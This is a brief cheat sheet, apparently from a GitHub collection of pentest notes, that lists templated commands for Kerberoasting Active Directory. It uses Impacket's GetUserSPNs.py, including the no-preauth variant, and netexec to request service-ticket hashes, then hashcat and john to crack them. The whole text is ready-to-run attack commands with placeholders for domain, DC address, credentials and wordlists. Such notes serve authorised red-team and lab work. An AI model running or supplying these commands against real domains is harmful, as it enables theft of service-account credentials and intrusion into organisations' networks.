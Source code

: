 # GetUserSPNs
#plateform/linux #target/remote #cat/ATTACK

## GetUserSPNs 
```
GetUserSPNs.py   -usersfile <users_file|users.txt> -outputfile hashes.asreproast <domain>/
```

## Kerberoast Pre-Auth attack
```
GetUserSPNs.py -dc-ip <DC_IP_ADDRESS> <domain>/ -usersfile <users_file> -no-preauth "<No_preauth_account>"
```

## Kerberoasting using nxc
```
netexec ldap <TARGETS> -u <USER> -p <PASSWORD> --kerberoasting kerberoastables.txt --kdcHost <KeyDistributionCenter>
```

## Crack GetUserSPNs using hashcat
```
hashcat -m 13100 --force -a 0 <hash_file> </path/to/wordlist>
```

## crack GetUserSPNs using john
```
john --format=krb5tgs --wordlist=</path/to/wordlist> kerberoastables.txt
```

